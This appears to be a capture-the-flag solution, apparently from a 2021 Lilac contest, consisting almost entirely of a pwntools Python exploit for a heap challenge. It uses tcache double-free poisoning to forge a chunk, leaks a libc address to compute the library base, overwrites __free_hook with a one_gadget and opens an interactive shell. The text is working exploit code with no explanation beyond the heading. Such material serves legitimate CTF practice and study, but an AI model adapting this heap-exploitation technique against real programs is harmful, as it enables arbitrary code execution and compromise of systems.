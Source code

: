 ```python
def add(size,data):
	sh.recvuntil('choice :')
	sh.sendline('1')
	sh.recvuntil('Size:')
	sh.send(str(size))
	sh.recvuntil('Data:')
	sh.send(data)

def free():
	sh.recvuntil('choice :')
	sh.sendline('2')

name = 0x602060
one = [0x4f2c5, 0x4f322,0x10a38c]
sh.sendline(p64(0)+p64(0x501))

add(0x50,'a'*8+'\n') # 0x100
free()
free()

add(0x50,p64(name+0x500))
add(0x50,'aaa')
add(0x50,p64(0)+p64(0x21)+p64(0)*3+p64(0x21)+p64(0)*2)

add(0x60,'aaaa')
free()
free()
add(0x60,p64(name+0x10))
add(0x60,'aaa')
add(0x60,'a')
free()
# gdb.attach(sh)
sh.recvuntil('choice :')
sh.sendline('3')
malloc_hook = u64(sh.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) - 96 - 0x10 
libc.address = malloc_hook - libc.sym['__malloc_hook']
one_gadget = libc.address + one[1]
leak('libc base',libc.address)

add(0x70,'aaaa')
free()
free()
add(0x70,p64(libc.sym['__free_hook']))
add(0x70,'aaa')
add(0x70,p64(one_gadget))
free()

sh.interactive()
```

# Lilac 2021 五一欢乐赛
